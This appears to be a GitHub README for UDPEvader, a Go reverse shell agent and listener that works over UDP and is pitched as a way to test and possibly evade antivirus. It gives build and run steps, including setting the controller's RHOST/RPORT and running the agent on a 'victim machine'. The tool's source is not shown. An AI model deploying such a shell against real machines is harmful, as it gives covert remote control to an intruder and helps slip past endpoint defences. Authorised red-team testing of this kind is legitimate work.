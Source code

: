 # UDPEvader
UDPEvader is a platform independent custom UDP-based reverse shell agent and controller, designed to allow users to  assist in assessing and potentially bypassing antivirus software. Allows to dynamically set their custom port and listener prompts.

## Features

- UDP-based reverse shell agent and controller
- Customizable listener prompts
- Antivirus assessment
- Can be used as a potential bypass technique

## Usage

1. Clone the UDPEvader repository:  

   gh repo clone diljith369/UDPEvader

2. Compile and build the UDPEvader agent and controller:
   - cd UDPEvader/src
   - Update &agentprops.UDPShellProps{
		RemoteServer: "RHOST",
		UDPPort:      "RPORT",
	} in udpagent.go file, replace RHOST and RPORT with controller server IP and Port, then build agent 
   - go build udpagent.go   
   - go build udplistener.go

3. Start the listener :
   - udplistener.exe --lport <LPORT> --prompt <YourPrompt> or 
   - udplistener.exe (In this case LPORT will be 8080 and prompt will be <<@dcrypT0R~UDP>>)

4. Run the agent on your test/ victim machine , once the agent is connected, you can interact with the target machine   through the controller's listener prompts.

5. Assess and test your antivirus or explore potential bypass techniques using the UDPEvader agent.

## Disclaimer
UDPEvader is intended for educational and assessment purposes only. Misuse of this tool may violate applicable laws and regulations. Use it responsibly and at your own risk.

## Suggestions
If you find any issues or have suggestions for improvements, feel free to open an issue.
## Built With
Go Lang
## Author
Initial work - (https://github.com/diljith369)